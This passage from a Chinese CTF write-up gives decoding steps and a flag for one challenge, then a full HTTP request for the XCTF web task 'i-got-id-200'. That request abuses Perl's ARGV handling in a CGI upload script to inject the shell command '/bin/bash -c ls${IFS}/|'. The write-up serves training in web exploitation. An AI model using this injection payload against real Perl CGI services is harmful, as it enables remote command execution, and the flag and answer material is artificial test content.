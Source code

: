 ```python
        }
for item in s:
    print (dict[item],end='')
```

```
EPIDEMICSITUATIONOFUNIVERSITYWAR
```

作为解压密码用来解压得到一串base字符串：

```
VGgxc19pc19GbGFHX3lvdV9hUkVfcmlnSFQ=
```

CTFcrack进行base64解码得到flag:

```
Th1s_is_FlaG_you_aRE_rigHT
```

# xtcf

## web

###### i-got-id-200

Perl（.pl）站文件上传

```
POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1
Host: 220.249.52.133:45874
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------312623419042421556082293855654
Content-Length: 492
Origin: http://220.249.52.133:45874
Connection: close
Referer: http://220.249.52.133:45874/cgi-bin/file.pl
Cookie: PHPSESSID=0g8sp3lq2esm31ss6265g37l77
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

-----------------------------312623419042421556082293855654
Content-Disposition: form-data; name="file";
Content-Type: application/octet-stream

ARGV
-----------------------------312623419042421556082293855654
Content-Disposition: form-data; name="file"; filename="test.py"
Content-Type: text/plain

-----------------------------312623419042421556082293855654
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------312623419042421556082293855654--
```
